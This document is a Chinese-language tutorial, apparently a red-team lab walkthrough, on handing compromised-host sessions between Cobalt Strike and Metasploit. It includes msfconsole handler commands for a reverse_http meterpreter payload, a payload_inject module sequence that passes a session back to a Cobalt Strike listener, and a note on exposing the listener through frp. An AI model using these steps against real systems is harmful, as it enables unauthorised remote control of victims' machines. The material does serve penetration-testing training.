










如果是kali的msf要联动服务器上的CS的话，可以通过frp将msf映射到公网上

# CS ——> MSF

生成一个CS木马，然后先上线一台windows



打开MSF，启动一个监听，用来监听CS派生过来的回话

```python3
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.50.128   (本机ip)
set lport 5555
exploit
```



CS创建新的监听器，地址为MSF地址，端口为MSF监听端口



然后在cs控制台输入spawn msftest



也可以直接在已上线的主机点击右键点击spawn来选择监听器



在msf中收到了会话，得到了meterpreter



# MSF ——> CS

接下来来尝试将刚才得到的meterpreter再派生到Cobalt Strike上



在CS上创建监听



这次使用10011这个监听

使用模块exploit/windows/local/payload_inject

```text
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.50.128     # 创建cs监听的地址
set lport 10011              # cs监听端口
set session 1
exploit
```



在CS上收到了会话




https://zhuanlan.zhihu.com/p/381754822